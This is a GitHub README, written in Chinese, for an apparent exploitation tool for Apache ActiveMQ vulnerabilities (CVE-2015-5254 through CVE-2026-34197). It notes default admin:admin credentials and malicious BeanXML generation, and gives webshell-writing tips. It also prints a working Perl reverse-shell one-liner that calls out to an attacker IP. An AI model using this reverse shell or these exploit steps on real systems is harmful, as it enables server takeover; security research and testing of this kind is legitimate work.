


# ActiveMQ-EXPtools

支持检测和利用Apache ActiveMQ漏洞，CVE-2015-5254，CVE-2016-3088，CVE-2022-41678，CVE-2023-46604，CVE-2024-32114，CVE-2026-34197



> [!WARNING]
> 本工具仅供安全研究和学习使用。使用者需自行承担因使用此工具产生的所有法律及相关责任。请确保你的行为符合当地的法律和规定。作者不承担任何责任。如不接受，请勿使用此工具。

jdk8启动，Openwire默认端口61616，有时目标环境可能没有开放。apache activemq默认用户名密码admin:admin。BeanXML设置面板可生成执行对应命令的恶意的xml。有问题欢迎提Issue。

CVE-2023-46604和CVE-2026-34197在漏洞检测时就会发送exp，因此没有单独列出来，注意查看BeanXML服务端是否收到请求。


## 部分漏洞利用注意事项

### CVE-2015-5254

java-chains生成反序列化数据，验证漏洞时可以用URLDNS

在反弹shell时最好用perl，sh和bash有时弹不了

```bash
/usr/bin/perl -e 'use Socket;$i="192.168.239.129";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



### CVE-2022-41678

自定义webshell写入时，冰蝎马写入会报500，哥斯拉正常。工具连接时注意要加上认证头部

**致谢**

https://github.com/URJACK2025/CVE-2022-41678

https://github.com/vulhub/vulhub

https://github.com/vulhub/java-chains
